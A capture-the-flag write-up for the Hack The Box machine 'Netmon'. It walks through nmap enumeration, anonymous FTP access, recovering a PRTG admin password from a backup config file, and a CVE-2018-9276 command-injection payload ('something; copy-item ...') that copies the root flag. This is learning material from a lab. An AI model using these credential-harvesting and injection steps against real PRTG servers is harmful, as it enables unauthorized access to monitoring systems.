 # HTB - Netmon
## OS - Windows

As usual, I started with an nmap scan.

```
$nmap -sC -sV -oN netmon.nmap 10.10.10.152
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-03 09:00 PST
Nmap scan report for 10.10.10.152
Host is up (0.098s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m48s, deviation: 0s, median: 3m47s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-03T17:04:15
|_  start_date: 2021-01-03T17:01:36

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.98 seconds

```

Anonymous ftp is open. On port 80, Paessler PRTG bandwidth monitor is running. Since this box is named netmon, chances are we need to exploit some vulnerability in this service.

I tried anonymous ftp first.

```
$ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:xxxxxxx): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  10:44PM       <DIR>          Administrator
02-02-19  11:35PM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.10 secs (0.3299 kB/s)
```

Getting the user flag was easy. Let's see how to get admin access.

PRTG Configuration.dat was found in Windows directory, but I could not download it. 

When I go to http://10.10.10.152, I see the PRTG Network Monitor home page. There's a login screen. Online search showed that the default credentials are prtgadmin/prtgadmin, but it did not work.

Another search result led to https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/ where it shows that prtg exposes domain accounts and passwords. The config is stored in C:\ProgramData\Paessler\PRTG Network Monitor\.

So back to ftp to check these folders.
If we do "dir -a", we see the "Program data" folder.

I downloaded the three files from that folder C:\ProgramData\Paessler\PRTG Network Monitor\.

```
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```


In the backup config, I see the following password:

```
           <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>

```

That did not work but changing 2018 to 2019 worked.

I was able to login as prtgadmin.

Searching online for vulnerabilities in PRTG, I found this: https://www.cvedetails.com/cve/CVE-2018-9276/
An issue was discovered in PRTG Network Monitor before 18.2.39. An attacker who has access to the PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios. 


I created a notification to execute an action.

In settings -> Notifications, I see that we can set up notifications. We can add a notification -> Under that, there's an "Execute Program" option. 

![prtg-1](/images/prtg-1.png)


I wanted to touch a file to see if the vulnerablity could be exploited. The windows equivalent of touch is 

```
type nul > C:\Jan32021.txt"
```

it worked.

```
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
01-03-21  12:50PM                    0 Jan32021.txt
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
```
  
Now let's copy the root.txt flag to c:\

This is the argument I used:
something; copy-item  "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\root.txt"

![prtg-2](/images/prtg-2.png)

```
$ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:vskonda): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
01-03-21  12:52PM                    0 Jan32021.txt
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-02-19  11:35PM                   33 root.txt
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
ftp> 

```

And we got the root flag.

